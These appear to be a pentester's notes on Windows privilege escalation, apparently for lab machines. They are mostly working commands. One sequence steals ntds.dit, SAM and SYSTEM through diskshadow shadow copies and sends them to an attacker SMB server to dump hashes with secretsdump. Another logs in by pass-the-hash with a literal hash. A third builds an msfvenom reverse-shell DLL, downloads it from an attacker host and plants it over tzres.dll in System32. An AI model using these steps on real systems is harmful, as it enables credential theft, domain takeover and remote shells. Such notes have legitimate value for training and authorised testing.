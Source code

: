 ```
- `sudo unix2dos vss.dsh` on kali
- `upload vss.dsh` on remote machine (copy to machine via evil-winrm)
on remote machine, run diskshadow (built-in windows utility)
```
diskshadow /s c:\programdata\vss.dsh
```
`smbserver.py s . -smb2support` on kali, start smb server
`net use \\10.10.14.172 \s` on remote machine, mount smb server
`Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.172\s\ntds.dit` on remote machine, copy ntds.dit to kali via smb server
`reg.exe save HKLM\SYSTEM C:\system.hiv` on remote machine, copy SYSTEM reg key to C: drive
`Copy-Item C:\system.hiv \\10.10.14.172\s\system` on remote machine, copy from C drive to kali
`secretsdump.py -system system -ntds ntds.dit LOCAL` on kali, to dump hashes from ntds and system file

***SeBackUpPrivilege alternate path*** (if ntds or system and sam wont copy):
- `cd c:\`
- `mkdir Temp`
- `cd \Temp`
- `reg save hklm\sam c:\Temp\sam`
- `reg save hklm\system c:\Temp\system`
- `download sam`
- `download system`
create script.txt on kali:
```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
- `upload script.txt` to C:\Temp
```
diskshadow /s script.txt
```

```
robocopy /b E:\Windows\ntds . ntds.dit
```
- `download ntds.dit`
```
secretsdump.py -sam sam -system system -ntds ntds.dit LOCAL
```
- get admin hash (2nd part after :)
```
evil-winrm -i 10.129.139.85 -u administrator -H "2b87e7c93a3e8a0ea4a581937016f341"
```
- PTH

***SeManageVolumePrivilege***
- SeManageVolumeExploit.exe from [https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9)
	- upload to target and run
	- allows for dll hijacking by writing to C drive
		- also allows for icacls on privileged folders like windows\system32
	- `systeminfo` command uses tzres.dll so create malicious payload
		- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.205 LPORT=135 -f dll -o tzres.dll`
	- upload to machine, overwriting actual DLL
		- `iwr http://192.168.45.205/tzres.dll -o c:\Windows\System32\wbem\tzres.dll`
	- start listener 
```